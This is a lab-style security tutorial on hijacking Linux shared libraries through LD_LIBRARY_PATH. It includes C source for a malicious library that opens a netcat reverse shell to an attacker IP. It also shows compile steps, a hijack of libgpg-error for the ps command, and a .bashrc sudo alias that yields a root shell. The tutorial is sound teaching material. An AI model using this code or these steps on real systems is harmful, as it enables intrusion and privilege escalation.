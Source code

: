 # Hijacking Shared Libraries
* * *
## Intoduction To Linux Shared Libraries

You can think of shared libraries as a collection of functions and data designed to be used by multiple programs. They are typically identified by the `.so` (shared object) extension and are linked dynamically at runtime, which not only reduces the size of executables but also boosts system efficiency. However, it's important to note that any changes to a shared library can impact all the programs that rely on it.
In the Linux ecosystem, shared libraries commonly use the Executable and Linkable Format (ELF), a standard file format for executables, object code, shared libraries, etc.

## The Search Path for Shared Libraries

When a Linux application is executed, it follows a specific sequence to locate its required libraries. Once it finds the required library, it stops searching and loads that library. Here’s how the search process works:
- The application first checks the directories listed in its Runtime Library Search Path (`RPATH`), which is embedded within the executable itself.
- Next, it looks in the directories specified in the `LD_LIBRARY_PATH` environment variable. This variable allows users to define custom library paths without modifying the system-wide configuration.
- Similar to RPATH, the Runtime Search Path (`RUNPATH`) is another directory list embedded in the executable but is checked after `LD_LIBRARY_PATH`.
- The application then checks the directories listed in /etc/ld.so.conf configuration file. 
- Finally, the search proceeds to the standard system library directories, which include `/lib`, `/lib64`, `/usr/lib`, `/usr/lib64`.


## Hijcak Shared Library: A Practical Guide

Looking at how Linux searches for shared libraries reveals a potential security risk: an attacker can manipulate this process by placing malicious versions of libraries in earlier locations, thus controlling the application's behavior. This technique, known as library hijacking, exploits the order in which Linux searches for shared libraries.

One common method involves controlling the `LD_LIBRARY_PATH` environment variable. This variable allows users to override the default library paths, often used for testing new library versions. However, it can also be exploited to inject malicious libraries, altering a program's behavior or even executing harmful code to escalate privileges.

Let’s dive into a practical example. We'll demonstrate how to hijack the execution of a program on a testing machine running Ubuntu by introducing a malicious library called `mylibrary`.

### Writing the Malicious Library

First, we need to create our malicious library. The following C code defines a library that opens a reverse shell when loaded

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static void revShell() __attribute__((constructor));

void revShell() {
	setuid(0);
	setgid(0);
	printf("Reverse Shell via library hijacking... \n");
		const char *ncshell = "nc -e /bin/sh 192.168.171.1 7777 &";
	system(ncshell);
}
```

The first four lines consist of standard header files. Following this, `revShell()` is declared with the constructor attribute. A constructor is a function that executes when the library is first initialized to set up necessary code. After that, the `revShell()` constructor function is implemented. Within this function, we set the user ID (`UID`) and group ID (`GID`) to 0, providing root privileges if executed in a sudo context. Additionally, a message is printed to indicate the execution of the code. Finally, netcat is used to establish a reverse shell, connecting to the attacker's machine on port 7777.

### Compiling the Malicious Library

To compile our shared library, we use the following commands:

```sh
gcc -Wall -fPIC -c mylibrary.c -o mylibrary.o
```

- `-Wall`: Enables all compiler's warning messages.
- `-fPIC`: Generates position-independent code, suitable for shared libraries.
- `-c`: Compiles the code without linking.
- `-o`: Specifies the output file name.

### Create the Shared Library

After compliation is done, we need to create the shared library. This is done by using the `-shared` parameter to tell `gcc` we’re creating a shared library from our object file. We then specify an output file again, this time with the name `libhax.so`

```sh
gcc -shared mylibrary.o -o libmylibrary.so
```


### Identifying a Suitable Application

After creating our malicious shared library, the next step is to use it. Two considerations arise: firstly, selecting a program that the victim is likely to execute with elevated privileges, and secondly, ensuring that the hijacking of a shared library does not cause the program to crash. Remember, when we hijack a library, it will not be available to that program.

For this demonstartion we will use the `ps` command as our target. Users often run ps with sudo to display processes with elevated permissions, making it a suitable candidate for our attack.

Let's identify the libraries `ps` uses. We'll use the `ldd` command on the target machine to list these libraries. The output will include something like:

```sh
ldd /bin/ps
	....
	libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ffff6614000)

```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/ldd_ps.png)

The `libgpg-error.so.0` library appears to be a good candidate for hijacking. It handles error reporting and is likely to be loaded but not frequently called during normal operation, minimizing the risk of breaking the program.

### Setting Up the Environment

Next, we set up the environment to hijack the `libgpg-error.so.0` library. We will rename our malicious `.so` file to match the target library and configure the `LD_LIBRARY_PATH` to point to the location of our malicious library:

```sh
cd /home/msbit/Labs/shared_lib/ld_lib_path
export LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path
cp libmylibrary.so libgpg-error.so.0
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/cp.png)

### Executing the Target Program

Before running the ps command with our malicious library, we need to set up a netcat listener on the attacker's machine. This listener will wait for the reverse shell connection on port 7777.

```sh
rlwrap nc -lvp 7777
```

Now, with our environment prepared, we can execute the `ps` command on the target's machine. 

```sh
ps
ps: /home/msbit/Labs/shared_lib/ld_lib_path/libgpg-error.so.0: no version information available (required by /lib/x86_64-linux-gnu/libgcrypt.so.20)
Reverse Shell via library hijacking... 
   PID TTY          TIME CMD
  2023 pts/18   00:00:00 bash
  2824 pts/18   00:00:00 ps
  2826 pts/18   00:00:00 sh
```

On the attacker's terminal, you should now see the reverse shell connection. This output indicates that the shell is running with the privileges of the user who executed the `ps` command. 

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/userpriv.png)

However, if the user runs `ps` command with sudo, no reverse shell will be received at the attacker side, (why is that?).

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/no_reverse_shell.png)


## Gaining Root Shell

One of the challenges in exploiting the `LD_LIBRARY_PATH` environment variable is that most modern operating systems do not pass user environment variables when using `sudo`. This behavior is controlled by the `env_reset` setting in the `/etc/sudoers` file, which is enabled by default. When `env_reset` is active, running a command with `sudo` will not include `LD_LIBRARY_PATH` or other user-defined environment variables. This can limit the effectiveness of our library hijacking attempt, as the malicious library won't be loaded when the program is executed with elevated privileges.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/sudoers.png)

One trick we can use to bypass this restriction is to create an alias for `sudo` that includes the `LD_LIBRARY_PATH` variable. This method can be applied temporarily in the current terminal session or by adding it to the `.bashrc` file.
- Temporary Alias:

```sh
alias sudo='sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path'
```

- Persistent Alias in .bashrc

```sh
echo 'alias sudo="sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path"' >> ~/.bashrc
source ~/.bashrc
```
By setting this alias, any command run with sudo will include our modified `LD_LIBRARY_PATH`.

Let's try again, before running the `ps` command with `sudo`, set up a netcat listener on the attacker's machine to capture the reverse shell. Now, execute the `ps` command with `sudo`

```sh
sudo ps
```

On the attacker's terminal, you should see the reverse shell connection. This indicates that the shell is now running with root privileges due to the `sudo` command

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/rootShell.png)


Happy Learning... <br>
Mahmoud Jadaan

### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
